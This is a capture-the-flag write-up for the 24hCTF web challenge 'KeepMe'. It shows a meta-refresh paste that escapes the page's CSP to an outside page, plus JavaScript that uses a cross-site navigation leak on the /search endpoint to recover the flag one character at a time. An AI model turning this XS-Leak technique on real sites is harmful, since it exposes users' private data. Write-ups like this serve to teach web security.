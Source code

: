 # 24hCTF - web - KeepMe

Categories: csp, xsleak

`KeepMe` is a Togosha-sponsored challenge that allows the user to
create an account, create pastes (think pastebin), search pastes
and report an URL.

When searching in pastes, the result is returned as a downloadable
page.

## Solution

After a bit of playing around with the `/static/js/main.js` page
and DOM clobbering, I started digging in XS Leaks technique and found
that the flag could be leaked using the `/search` endpoint.

To do so, we needed to get out of the CSP-constrained context of the
pastes. I used the following paste content to do so:

```
<meta http-equiv="refresh" content="0;URL='https://example.com/xsleak.html'"/>
```

Then, we could leak the flag character by character using something along:

```
var url = 'http://yogosha.24hctf.ca/search?query=';
var flag = "FLAG{ShOrtAf}";

var ALPHA = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

for (var i = 0 ; i < ALPHA.length ; i++) {
        // Get a window reference
        let c = ALPHA[i];
        var win = window.open(url + flag + c);

        function foo(w, x) {
                return (() => {
                        try {
                                // If a navigation occurs, the iframe will be cross-origin,
                                // so accessing "win.origin" will throw an exception
                                w.origin;
                                window.open("/keep/" + flag + x);
                                parent.console.log('Download attempt detected');
                        } catch(e) {
                                parent.console.log('No download attempt detected');
                        }
                });
        }

        // Wait for the window to load.
        setTimeout(foo(win, c), 2000);
}


</script></body></html>
```

Nice challenge!


## References

https://xsleaks.dev/docs/attacks/navigations/
https://blog.bi0s.in/2021/08/30/Web/Fword-CTF-2021-Shisui-Write-up/

